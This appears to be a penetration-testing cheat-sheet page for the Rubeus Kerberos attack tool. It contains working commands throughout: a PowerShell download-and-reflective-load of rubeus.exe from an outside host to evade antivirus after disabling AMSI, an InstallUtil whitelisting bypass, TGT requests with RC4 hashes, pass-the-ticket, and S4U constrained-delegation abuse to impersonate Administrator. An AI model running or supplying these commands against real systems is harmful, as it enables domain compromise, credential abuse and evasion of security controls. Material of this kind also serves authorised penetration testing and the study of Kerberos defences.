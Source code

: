 # Rubeus

## Assembly Reflection

{% hint style="info" %}
Can be used to evade AV.

Disable AMSI, load the exe as Assembly and invoke the methods.
{% endhint %}

* Load the assembly using Reflection

```csharp
$ass = (new-object net.webclient).DownloadData('http://10.110.0.66/tools/rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($ass)
```

* Invoke a function

```csharp
[Rubeus.Program]::Main("purge".Split())
```

![](../../../.gitbook/assets/image%20%2839%29.png)

* Request a TGS \(Constrained Delegation\)

```csharp
[Rubeus.Program]::Main("s4u /user:server01 /rc4:sdsafgsa08ac2d2sad5988cbsda /impersonateuser:Administrator /msdsspn:cifs/server02 /ptt".Split())
```

```text
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile=  /cmd="hash" /args="/password:polo" .\StandRubeus.dll
```

## Monitor for TGT

```text
rubeus.exe monitor /interval:5 /filteruser:<machine account$ or username>
```

## Inject Ticket

```csharp
.\Rubeus.exe asktgt /user:iissvc /domain:test.lab.local /rc4:FC525C9683E8FE067095BA2DDC971889
rubeus.exe ptt /ticket:Base64_ticket_here
```

## Constrained Delegation

### Create hash from password

```csharp
 .\Rubeus.exe hash /password:Passw0rd!
```

### Ask a TGT

```csharp
.\Rubeus.exe asktgt /user:iissvc /domain:test.lab.local /rc4:FC525C9683E8FE067095BA2DDC971889
```

### S4U

```text
 .\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:mssqlsvc/test.lab.local:1433 /ptt /ticket:doIE+jCCBPdsakljdkslad/lakdlsa
```

{% hint style="info" %}
altservice can also be used to the command if /msdsspn is **www.**

**/altservice:CIFS /ptt /ticket:xxxxxxxx**
{% endhint %}



